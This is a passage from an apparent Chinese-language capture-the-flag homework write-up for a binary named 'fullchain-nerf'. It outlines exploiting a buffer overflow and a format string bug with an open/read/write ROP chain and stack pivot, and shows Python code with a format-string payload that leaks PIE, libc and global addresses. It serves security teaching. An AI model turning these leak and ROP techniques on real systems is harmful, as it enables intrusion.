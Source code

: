 ![Fullchain Scanf Failed](resources/Fullchain-Scanf-Failed.png)

## Homework - fullchain-nerf

這題算是上ㄧ題的弱化版，沒有抹掉 `__libc_start_main`、沒有 Canary、cnt 在 `local` 下面、有個用 `read` 寫 `0x60` 長度的 Buffer Overflow、全部 Function 都是正常 Return，再加上那個赤裸裸的 format string vuln 可以讀寫任意地方，ROP Chain 是個可行的選項。另一個使用 ROP Chain 的原因，是因為這題沒有像 fullchain 中的 `myset` 可以拿來變成 `mprotect` 的 trigger，所以剩下可以執行任意程式碼的選項就剩 ROP 了。

### Pwn

解題步驟如下：

1. 透過每次 Overflow 的時候順便複寫 `cnt` 的數值
2. 透過 Format String Vuln 得到所需要的記憶體位置
3. 建構出 `open`, `read`, `write` 的 ROP Chain
4. Stack pivoting 到 RopChain 的位置，觸發執行

#### 取得記憶體位置

總共需要三個記憶體位置，`PIE_BASE`、`LIBC_BASE`、`GLOBAL_VAR_ADDR`，因為 Stack 中的數值的相對位置並不會因為每次執行而不同，所以可以透過以下的 payload 一次 leak 出來：

```python
payload = b"%17$lx|%19$lx|%7$lx\n"

send_cmd2srv("global", "read", payload)
send_cmd2srv("global", "write")

tmp = r.recvline().split(b"|")

PIE_BASE = int(tmp[0].decode(), 16) - 100 - 0x15fd
LIBC_BASE = int(tmp[1].decode(), 16) - 243 - 0x26fc0
GLOBAL_VAR_ADDR = int(tmp[2].decode(), 16)
```
